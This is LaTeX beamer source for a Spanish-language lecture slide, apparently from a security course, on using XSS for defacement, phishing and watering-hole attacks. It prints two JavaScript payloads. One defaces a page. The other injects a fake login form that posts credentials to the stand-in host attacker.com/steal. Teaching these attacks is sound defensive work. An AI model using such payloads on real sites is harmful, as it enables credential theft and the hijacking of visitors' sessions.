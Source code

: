 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{XSS --- Defacement, Phishing y Watering Hole}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Defacement mediante XSS
  \item[] \cmdbox{document.body.innerHTML = '\textless{}h1 style=\textquotedbl{}color:red\textquotedbl{}\textgreater{}Hacked!\textless{}/h1\textgreater{}';\\{}
document.title = 'Hacked';\\{}
document.body.style.backgroundImage = 'url(https://attacker/img.png)';}
  \item Phishing vía XSS --- Fake Login
  \item Inyectar formulario de login falso sobre la página legítima:
  \item[] \cmdbox{document.body.innerHTML = `\\{}
\textless{}form action='https://attacker.com/steal' method=POST\textgreater{}\\{}
\textless{}h2\textgreater{}Sesión expirada. Inicia sesión de nuevo:\textless{}/h2\textgreater{}\\{}
\textless{}input name=user\textgreater{}\textless{}input type=password name=pass\textgreater{}\\{}
\textless{}button\textgreater{}Entrar\textless{}/button\textgreater{}\textless{}/form\textgreater{}`;}
  \item $\rightarrow$ La víctima ve la URL legítima pero envía credenciales al atacante
  \item Watering Hole
  \item Comprometer un sitio frecuentado por el objetivo
  \item XSS almacenado $\rightarrow$ robo automático de sesiones de todos los visitantes
  \item Ejemplo: foro de empleados $\rightarrow$ XSS $\rightarrow$ robo de tokens VPN/SSO
  \item XSS almacenado + Watering Hole = vector APT muy efectivo
  \item El phishing vía XSS usa URL legítima $\rightarrow$ mucho más convincente
  \end{itemize}
\end{frame}
\end{document}
